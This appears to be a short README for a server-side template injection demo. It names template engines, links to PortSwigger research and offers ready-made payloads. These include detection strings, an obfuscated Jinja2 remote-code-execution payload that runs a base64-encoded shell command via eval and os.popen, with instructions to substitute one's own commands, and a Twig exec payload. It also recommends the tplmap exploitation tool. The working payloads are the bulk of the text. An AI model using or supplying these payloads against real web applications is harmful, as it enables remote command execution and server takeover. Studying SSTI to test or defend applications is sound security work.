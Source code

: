 # Requirements

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines

1- FreeMarker
	Java-based template engine
2- Velocity
	Java-based template engine
3- Smarty
	PHP Template engine
4- Twig
	PHP Template engine
5- Jade 
	Node.js Template engine
6- Jinja2
	Python/Flask Template engine

# Basic Payload

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
TPLMap
